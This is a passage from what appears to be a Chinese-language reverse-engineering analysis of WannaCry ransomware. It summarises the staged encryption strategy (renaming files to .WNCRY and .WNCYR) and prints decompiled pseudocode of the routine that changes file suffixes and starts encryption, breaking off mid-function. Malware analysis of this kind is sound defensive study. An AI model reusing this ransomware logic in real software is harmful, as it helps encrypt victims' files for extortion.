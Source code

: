 针对该函数的加密策略做一个总结：

1.  在枚举文件中，cmd=1，会对普通文件直接加密为.WNCRY，不再加入链表，大文件处理为.WNCYR，以及其他未作处理文件继续加入链表等待处理

2.  枚举完成后，cmd从2-4，每个cmd遍历都遍历加密文件
    cmd=2，加密FILE_TYPE_DOCEX普通文件为.WNCRY（移出链表），以及FILE_TYPE_DOCEX大文件为.WNCYR
    cmd=2, 删除.WNCRYT

3.  cmd=3, 加密链表中所有文件（移出链表）

4.  cmd=4, 加密可能剩余链表中的文件

> 虽然操作不同 但是加密函数是同一个 接下来再次进入EncryptFiles

### 6.2.6 第六层

1.   pTargetPostFix = wcsrchr(&NewTargetFileFullPath, '.');// 获取文件后缀名  

2.    pTargetPostFix_1 = pTargetPostFix;  

3.    if ( !pTargetPostFix )  

4.    {  

5.      pTargetPostFix_2 = &NewTargetFileFullPath;  

6.      goto LABEL_6;  

7.    }  

8.    IsWNCRY = wcsicmp(pTargetPostFix, WNCRT);     // 将后缀名与WNCRY比较  

9.    pTargetPostFix_2 = pTargetPostFix_1;  

10.   if ( IsWNCRY )  

11.   {  

12. LABEL_6:  

13.     wcscat(pTargetPostFix_2, Source);           // 字符串拼接 原后缀+.WNCRY  

14.     goto LABEL_8;  

15.   }  

16.   wcscpy(pTargetPostFix_1, Source);  

17. LABEL_8:  

18.   if ( GetFileAttributesW(&NewTargetFileFullPath) != -1  

19.     || StartEncryptFiles((char *)v9, (int)OldTargetFileFullPath, &NewTargetFileFullPath, Num_4) )// 开始加密文件  

20.   {  

21.     if ( Num_4 == 4 )  

22.       sub_10002BA0(v9, OldTargetFileFullPath);  

23.     result = 1;  

24.   }  
